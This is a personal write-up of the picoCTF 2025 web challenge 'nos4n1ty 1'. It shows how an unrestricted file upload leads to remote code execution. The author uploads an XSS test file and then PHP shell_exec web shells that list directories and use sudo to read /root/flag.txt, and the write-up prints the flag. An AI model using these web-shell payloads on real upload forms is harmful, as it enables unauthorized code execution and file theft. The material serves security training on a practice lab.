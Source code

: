 <h1>nos4n1ty 1</h1>

From: https://play.picoctf.org/practice/challenge/482

Author: Prince Niyonshuti N.

Description: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Tags: Easy, Web Exploitation, picoCTF2025, browser_webshell_solvable
---

<h2>General functionality</h2>
Upon launching the instance, the user is prompted to upload a profile picture via the following interface on the website:

![image](https://github.com/user-attachments/assets/c9f1df2a-a2ee-4b48-893e-25a27dea6eb4)

When the picture is uploaded, a confirmation string is returned in a basic html page called /upload.php

![image](https://github.com/user-attachments/assets/48dfad7b-0c32-47dc-9c5e-fb9faa12ee4c)

The html file for the page reveals what I understand to be the image loading and previewing script:

![image](https://github.com/user-attachments/assets/c2fb1ec3-f285-469c-b738-e3c08e3457fd)

<h2>Initial Thoughts</h2>

So, we know that PHP is in use by the URL after submitting the image. We also know that the name of the file uplaoded is returned to us in a confirmation page. We might be able to inject script to this system by creating a specific file name.

We will aim for remote code execution, since this may allow us to retrieve the contents of files stored in the root of the system.

From: https://www.imperva.com/learn/application-security/php-injection/
__"RCE happens when a threat actor uploads code into your website and executes it. Typically, the source of the issue is a PHP bug that accepts user input and then evaluates it as PHP code. For example, threat actors can exploit a RCE vulnerability to create a file that contains a malicious script, designed to let the actor gain access to the target website."__

<h2>Experimentation</h2>

Sending filename: `;phpinfo();`
- returns: `The file ;phpinfo(); has been uploaded Path: uploads/;phpinfo();`

Sending filenmae: `<?php eval ("echo ".$REQUEST["uploads"].";"); ?>`
- returns `The file <?php eval (%22echo %22.$REQUEST[%22uploads%22].%22;%22); ?> has been uploaded Path: uploads/`

This means that quotation marks are being replaced with "%22". This might mean that the filename we have sent is being parsed via rawurlencode() as per https://www.php.net/manual/en/function.rawurlencode.php which describes the function as:
__"Returns a string in which all non-alphanumeric characters except -_.~ have been replaced with a percent (%) sign followed by two hex digits. This is the encoding described in » RFC 3986 for protecting literal characters from being interpreted as special URL delimiters, and for protecting URLs from being mangled by transmission media with character conversions (like some email systems)."__

When I try to go the url after uploading my image... `http://standard-pizzas.picoctf.net:62426/uploads/%3C?php%20eval%20(%22echo%20%22.$REQUEST[%22uploads%22].%22;%22);%20?%3E`

We get a URL not found error, but also the text: `Apache/2.4.54 (Debian) Server at standard-pizzas.picoctf.net Port 62426` which might be a clue as to the available vulnerabilties.

After trying a few more injection types with the file name, I gave up and started prodding the other type of input santization - whether the file being uploaded is actually an image.

I prompted chat GPT for a mockup html and JS injection payload to see whether this is an avenue I should pursue.

Sending the following file and navigating to its path in the url...: 
```
<!-- test.html -->
<script>alert('XSS via HTML file');</script>
```
- returns:

![image](https://github.com/user-attachments/assets/c0b25a42-c7c4-4f6a-84d2-4ce213cd0cab)

This shows that its possible to get new HTML and Javascript onto the server via the file upload.

<h2>Exploring remote execution</h2>

After some further experimentation, I created a .php file with the code `<?php phpinfo(); ?>`. When I then navigated to that page on the server, many details about the installation were revealed. Some interesting ones have been noted below:

`System 	Linux challenge 6.8.0-1024-aws #26-Ubuntu SMP Tue Feb 18 17:22:37 UTC 2025 x86_64 `
`PHP API 	20190902`
`Apache Version 	Apache/2.4.54 (Debian)`
`Server Administrator 	webmaster@localhost`
`Server Root 	/etc/apache2`
`PHP Version 	7.4.33`
`cURL support 	enabled`
`cURL Information 	7.74.0`
`PWD 	/challenge`

From https://www.php.net/manual/en/function.shell-exec.php I took an example for shell execution code and modified it to show all files in an active directory.
Sending:
```
<?php
$output = shell_exec('ls -la');
echo "<pre>$output</pre>";
?>
```
- returns:

![image](https://github.com/user-attachments/assets/af4ae45e-da96-4134-ae48-688baec353a1)

It seems that, I can execute shell code, and see list the files in the current directory.

I wasn't able to shift directories via cd, but instead I can change the ls command to different directory using this payload
```
<?php
$output = shell_exec('ls /root -l');
echo "<pre>$output</pre>";
?>
```
However, this returns a blank page, how interesting...

with only specify the / directory, I can see the file structure for the machine:

![image](https://github.com/user-attachments/assets/543f62ec-0f89-440f-86e3-709b57bde680)

When sending the this command with `ls -la` command, we can see the priviliges for the different directories, notice that root doesn't have many permissions

![image](https://github.com/user-attachments/assets/f8f82b2b-abd2-4869-a107-506b34554c23)

from: https://linuxhandbook.com/linux-file-permissions/ this means that only an administrator can view this directory:

![image](https://github.com/user-attachments/assets/eb1aabfa-1dc3-4636-9a92-c1d7aeb56c61)

modifying the code to be:
```
<?php
$output = shell_exec('sudo ls /root -l');
echo "<pre>$output</pre>";
?>
```
- returns:

![image](https://github.com/user-attachments/assets/22230c0f-b698-485f-9790-7de542fb6364)

Cool! we can see the flag!

lets try the same shell code, but cat the file directly with the full path.
```
<?php
$output = shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```
returns:

![image](https://github.com/user-attachments/assets/72047e65-403e-4cd0-bc23-2453883970c7)

__`picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`__

Whoopee!





Applications used during CTF:

- Kali Linux

- Mozilla Firefox

- Visual Studio Code


Core sources of information:

Imperva: https://www.imperva.com/learn/application-security/php-injection/
  - Overview of PHP injection

PHP: https://www.php.net/manual/en/function.shell-exec.php
  - Documentation for shell_exec()

Linux Handbook: https://linuxhandbook.com/linux-file-permissions/
  - Guides for linux file structure and permissions

ChatGPT: https://chatgpt.com/
  - Review of JS code in footer, revealing potential avenues for exploitation







